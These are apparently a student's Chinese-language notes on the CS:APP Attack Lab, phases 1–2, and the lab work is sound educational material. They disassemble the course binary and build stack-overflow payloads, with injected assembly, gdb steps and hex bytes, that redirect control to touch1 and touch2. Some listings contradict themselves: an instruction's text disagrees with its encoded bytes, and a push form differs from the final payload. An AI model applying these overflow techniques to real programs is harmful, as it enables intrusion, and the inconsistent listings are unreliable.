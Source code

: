 # Attack Lab Notes

Phase 1 - 3：Code Injection attacks 代码注入攻击，是指向缓冲区填充数据时超过长度限制，导致覆盖了别的区域的数据，当覆盖了返回地址，并指向自己的攻击代码时便可以完成攻击的执行。

Phase 4 - 5：ROP attacks 攻击者扫描已有的动态链接库和可执行文件，提取出可以利用的指令片段(gadget)，这些指令片段均以ret指令结尾，利用ret结尾的程序片段 ，操作这些栈相关寄存器，控制程序的流程，执行相应的gadget，实施攻击者预设目标 。



## Phase 1

实验要求：不需要注入代码，CTARGET会调用 getbuf() 函数读取字符串，用户需要做的是填充字符串并覆盖返回地址，使代码重定向到 touch1() 函数。

```c
// attacklab.pdf 中关于getbuf以及touch1的提示：

void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}


void touch1() {
    vlevel = 1; /* Part of validation protocol */      
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

首先对CTARGET文件进行反汇编

```
objdump -d ctarget > ctarget.asm
```

得到两个关键函数的代码：

```asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

可以看到``sub    $0x28,%rsp``，说明在栈中开辟了0x28，即40个字节的长度用于存放字符串，touch1的函数地址是00000000004017c0，所以我们首先利用任意数字填充40字节，再跟上这一地址，即可完成攻击。



## phase 2

实验要求： 通过代码注入的方式抵达touch2,同时touch2中存在对参数的检查，传入参数需要与本地cookie.txt内的值相等。所以此次实验需要完成以下事情：

1. 将cookie的值推到rdi（存放参数的寄存器）中     
2. 修改返回地址以运行栈内的注入代码，注入的代码为使用ret跳转到touch2

```C
void touch2(unsigned val){
    vlevel = 2;
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

查看本地cookies.txt，可以得到cookie值为0x59b997fa，转换为16进制为35 39 62 39 39 37 66 61 00

查看反汇编代码，可以得到touch2的地址为00000000004017ec

```asm
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

编写注入代码：

```asm
movq    $0x5561dc78, %rdi   #写入cookie值保证touch2运行通过
pushq   0x4017ec			#ret从栈顶获取返回地址，这里填写touch2的地址
ret							
```

将代码写入文件，对文件进行编译、再反编译，可以得到指令序列

```powershell
$ gcc -c inject.s
$ objdump -d inject.o
```

```asm
inject.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x5561dc78,%rdi
   7:	ff 34 25 ec 17 40 00 	pushq  0x4017ec
   e:	c3                   	retq  
```

我们需要将48 c7 c7 fa 97 b9 59 ff 34 25 ec 17 40 00 c3这段指令推入栈顶，并且将getbuf函数的返回地址修改为栈顶地址，即可完成此次注入攻击。

由phase1可知，修改getbuf函数的返回地址，需要填充40个字节的任意数据，并跟上新的地址进行覆盖。因此接下来获取栈顶地址%rsp

```powershell
$ gdb ctarget

(gdb)> break getbuf
(gdb)> run -q
(gdb)> disas
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq

(gdb)> stepi
(gdb) p /x $rsp
$1 = 0x5561dc78

得到栈顶地址为0x5561dc78，因此可以填充以下代码：

```
48 c7 c7 fa 97 b9 59 68 ec 17 
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00  
```



**？？？**







